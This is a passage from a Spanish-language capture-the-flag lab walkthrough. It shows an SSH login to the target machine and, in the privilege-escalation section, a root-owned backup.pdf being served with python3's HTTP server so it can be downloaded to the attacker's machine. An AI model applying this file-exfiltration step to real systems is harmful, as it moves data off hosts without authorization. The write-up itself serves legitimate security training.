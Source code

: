 ~~~ bash
ssh balulero@unrecover.dl
balulero@unrecover.dl\'s password: 
Linux d681f83f90f6 6.10.11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.10.11-1parrot1 (2024-10-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
balulero@d681f83f90f6:~$
balulero@d681f83f90f6:~$ export TERM=xterm
~~~

En este ejemplo cambiamos la variable de entorno `TERM` para que su valor sea `xterm` y así poder hacer uso de `Ctrl + L`



# Escalada de Privilegios
---
Si listamos los archivos en el directorio actual, veremos un directorio `server`

~~~ bash
balulero@d681f83f90f6:~$ ls -la 
total 12
drwx------ 1 balulero balulero   66 Feb  2 10:53 .
drwxr-xr-x 1 root     root       16 Feb  2 10:51 ..
-rw-r--r-- 1 balulero balulero  220 Feb  2 10:51 .bash_logout
-rw-r--r-- 1 balulero balulero 3526 Feb  2 10:51 .bashrc
-rw-r--r-- 1 balulero balulero  807 Feb  2 10:51 .profile
drwxr-xr-x 1 root     root       20 Feb  2 11:27 server

balulero@d681f83f90f6:~$ cd server 
balulero@d681f83f90f6:~/server$ ls -la
total 32
drwxr-xr-x 1 root     root        20 Feb  2 11:27 .
drwx------ 1 balulero balulero    66 Feb  2 10:53 ..
-rw-r--r-- 1 root     root     31654 Feb  2 11:21 backup.pdf
~~~


### HTTP Server

Una forma de transferirnos este archivo a nuestra máquina atacante es haciendo uso de `python3` para iniciar un servidor HTTP por un puerto que no sea el `80` (porque está siendo utilizado por apache)

~~~ bash
balulero@d681f83f90f6:~/server$ which python3 
/usr/bin/python3
balulero@d681f83f90f6:~/server$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.1 - - [08/Mar/2025 15:03:59] "GET /backup.pdf HTTP/1.1" 200 -
~~~
